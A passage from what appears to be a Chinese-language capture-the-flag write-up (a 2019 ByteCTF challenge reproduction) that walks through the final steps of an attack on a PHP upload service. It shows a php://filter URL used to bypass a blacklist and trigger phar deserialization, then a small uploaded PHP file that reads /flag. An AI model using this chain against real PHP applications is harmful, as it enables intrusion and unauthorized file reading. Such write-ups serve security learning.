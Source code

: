 上传該phar文件。访问該文件。使得解除`.htaccess`被写乱的现状。

访问該链接，就是为了触发phar反序列化漏洞。

```
http://112.126.102.158:9999/view.php?filename=&filepath=php://filter/convert.base64-
encode/resource=phar://sandbox/0a8a3ff9ed88d2847af85fde49c7e9ae/dab4372519226a4dccef3b43f41200c1.phar
```

使用`filter://`是为了绕过黑名单



接着上传木马

```php
<?php
var_dump(file_get_contents("/flag"));
?>
```



访问链接：

```
http://112.126.102.158:9999/sandbox/0a8a3ff9ed88d2847af85fde49c7e9ae/71c31cca71459cafdb161a3f63a6fdc7.php
```

获得flag

![](/home/cookie/Pictures/blogs/10.png)

整个攻击链如下：

![](/home/cookie/Pictures/blogs/2019ByteCTF[复现]/１.png)

